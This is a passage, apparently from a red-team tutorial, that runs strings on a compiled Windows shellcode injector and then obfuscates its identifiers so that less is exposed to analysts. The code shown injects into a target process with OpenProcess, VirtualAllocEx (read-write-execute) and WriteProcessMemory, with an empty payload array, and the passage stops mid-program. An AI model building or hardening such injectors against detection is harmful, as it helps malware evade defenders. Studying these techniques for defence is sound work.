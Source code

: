 ```
```

Let’s use strings to see exactly what was leaked when this source code is compiled.

```
C:\>.\strings.exe "\Injector.exe"

Strings v2.54 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

!This program cannot be run in DOS mode.
>FU
z';
z';
...
[snip]
...
Y_^[
leaked
shellcode
2_^[]
...
[snip]
...
std::_Adjust_manually_vector_aligned
"invalid argument"
string too long
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
std::_Allocate_manually_vector_aligned
bad allocation
Stack around the variable '
...
[snip]
...
8@9H9T9X9\\9h9|9
:$:(:D:H:
@1p1
```

Notice that all of the iostream was written to strings, and even the shellcode byte array was leaked. This is a smaller program, so imagine what a fleshed-out and un-obfuscated program would look like!

We can remove comments and replace the meaningful identifiers to resolve this problem.


```
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
```
